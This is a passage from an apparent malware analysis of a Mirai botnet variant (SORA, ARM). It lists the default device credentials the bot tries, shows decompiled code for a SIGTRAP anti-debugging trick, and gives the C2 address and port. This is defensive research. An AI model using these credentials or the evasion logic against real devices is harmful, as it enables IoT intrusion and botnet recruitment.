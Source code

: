 ```
MiraiCredentialExtractorSORAArm.java> ("admin" : "admin")
MiraiCredentialExtractorSORAArm.java> ("admin" : "pass")
MiraiCredentialExtractorSORAArm.java> ("admin" : "password")
MiraiCredentialExtractorSORAArm.java> ("admin" : "admin1234")
MiraiCredentialExtractorSORAArm.java> ("support" : "support")
MiraiCredentialExtractorSORAArm.java> ("mg3500" : "merlin")
MiraiCredentialExtractorSORAArm.java> ("daemon" : "")
MiraiCredentialExtractorSORAArm.java> ("ubnt" : "ubnt")
MiraiCredentialExtractorSORAArm.java> ("adm" : "")
MiraiCredentialExtractorSORAArm.java> Finished!
```

### Signal handling and C2 address setup

The signal `SIGINT` (Ctrl + C) is blocked and the child signals are ignored. A signal handler is set for `SIGTRAP` which is an anti debugger feature. In the leaked version the code initializes the C2 address with a [fake IP](https://github.com/jgamblin/Mirai-Source-Code/blob/3273043e1ef9c0bb41bd9fcdc5317f7b797a2a94/mirai/bot/main.c#L106) and later also [raises](https://github.com/jgamblin/Mirai-Source-Code/blob/3273043e1ef9c0bb41bd9fcdc5317f7b797a2a94/mirai/bot/main.c#L114) a `SIGTRAP`. When a debugger is attached, it will catch the `SIGTRAP` and the malware will use the fake C2 server. If no debugger is attached, the C2 address will be overwritten with the real one.

```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  sigset_t auStack_1fc;
...
  mw_sigemptyset(&auStack_1fc);
  mw_set_signal_mask(&auStack_1fc,SIGINT);
  mw_rt_sigprocmask(SIG_BLOCK,&auStack_1fc,0);
  mw_signal(SIGCHLD,SIG_IGN);
  mw_signal(SIGTRAP,FUN_0000f364);
...
```

```c
void FUN_0000f364(void)

{
  resolve_func = mw_setup_c2_connection;
  return;
}
```

In this variant this mechanism is a bit different since it uses the real C2 address and a fake port number first. They are overwritten later:


```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  sockaddr_in_00020e48.sin_port._1_1_ = 0x17; // port: 0x1700 = 5888
  sockaddr_in_00020e48.sin_family._0_1_ = 2;
  sockaddr_in_00020e48.sin_addr.s_addr = 0xcffd079a; // IP: 154.7.253.207
  sockaddr_in_00020e48.sin_port._0_1_ = 0;
  sockaddr_in_00020e48.sin_family._1_1_ = 0;
  mw_init_encrypted_config();
  resolve_func = mw_setup_c2_connection;
...
```
